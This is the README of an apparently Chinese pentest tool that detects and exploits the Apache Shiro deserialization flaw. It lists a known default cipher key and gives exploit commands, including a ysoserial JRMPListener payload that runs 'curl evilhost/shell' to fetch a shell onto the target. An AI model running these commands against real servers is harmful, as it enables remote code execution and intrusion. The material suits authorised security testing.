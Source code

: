 # Shiro_exploit

Shiro_exploit用于检测与利用Apache Shiro反序列化漏洞脚本。可以帮助企业发现自身安全漏洞。

该脚本通过网络收集到的22个key，利用ysoserial工具中的URLDNS这个Gadget，并结合dnslog平台实现漏洞检测。漏洞利用则可以选择Gadget和参数，增强灵活性。

# 环境

Python2.7

requests

Jdk 1.8

# 使用说明

    usage: shiro_exploit.py [-h] -u URL [-t TYPE] [-g GADGET] [-p PARAMS] [-k KEY]

    OPTIONS:
    -h, --help            show this help message and exit
    -u URL, --url URL     Target url.
    -t TYPE, --type TYPE  Check or Exploit. Check :1 , Exploit:2 , Find gadget:3
    -g GADGET, --gadget GADGET
                            gadget
    -p PARAMS, --params PARAMS
                            gadget params
    -k KEY, --key KEY     CipherKey

    Example: python shiro_exploit.py -u target


检测默认只需要使用-u参数即可。

检测可用gadget的方式可以运行

python shiro_exploit.py -u http://target/ -t 3 -p "ping -c 2 {dnshost}" -k "kPH+bIxk5D2deZiIxcaaaA=="

程序执行时会获取dnslog的域名替换  `{dnshost}` 这个值。不需要进行修改。目前还没解决windows和linux系统通用性的问题。这里-p自己根据实际情况指定下吧。

![检测可用gadget](images/detector.png)

利用的话，可以采用JRMP的方式。也可以根据检测出来的gadge来进行利用。

服务器：

java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 'curl evilhost/shell –o shell'

本地：

python shiro_exploit.py -u http://target/ -t 2 -g JRMPClient -p "remote_host:1099" -k "kPH+bIxk5D2deZiIxcaaaA=="


# 常见问题
1. 运行时出现 No module named 'Crypto'

运行如下命令：

```
pip uninstall crypto pycryptodome
pip install pycryptodome
```

python安装目录下的\Lib\site-packages，将crypto文件夹的名字改成Crypto。

如有其它问题或建议欢迎提交至issue。

工具的思路可以看我的博客文章：

[https://www.bacde.me/post/Apache-Shiro-Deserialize-Vulnerability/](https://www.bacde.me/post/Apache-Shiro-Deserialize-Vulnerability/ "Apache Shiro 反序列化漏洞实战")

注：请不要将该脚本用于非法用途，仅用于合法的，经过授权的渗透测试，公司内部安全检查与研究使用。由于使用工具带来的不良后果与本人无关。